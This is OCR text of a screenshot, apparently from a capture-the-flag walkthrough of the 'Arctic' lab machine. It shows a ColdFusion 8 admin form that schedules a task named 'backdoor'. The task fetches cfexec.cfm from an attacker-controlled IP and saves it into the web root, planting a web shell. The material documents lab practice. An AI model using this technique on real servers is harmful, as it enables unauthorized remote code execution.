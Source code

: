 ![](Maszyny/Windows/Arctic/Pasted%20image%2020210811234713.png)

Debugging & Logging > Add/Edit Scheduled Task
Add/Edit Scheduled Task
Task Name
backdoor
Duration
Start Date
13 Αυγ 2021
End Date (optional)
Frequency
One-Time at 8:50 nu
Recurring
Daily
at
Daily every
Hours
0
Minutes 0
Seconds
0
Start Time
End Time
URL
http://10.10.14.19/cfexec.cfm
User Name
Password
Timeout (sec)
Proxy Server
: Port
Publish
Save output to a file
C:\ColdFusion8\wwwroot\CFIC
File
Resolve URL
Resolve internal URLs so that links remain intact
Submit
Cancel
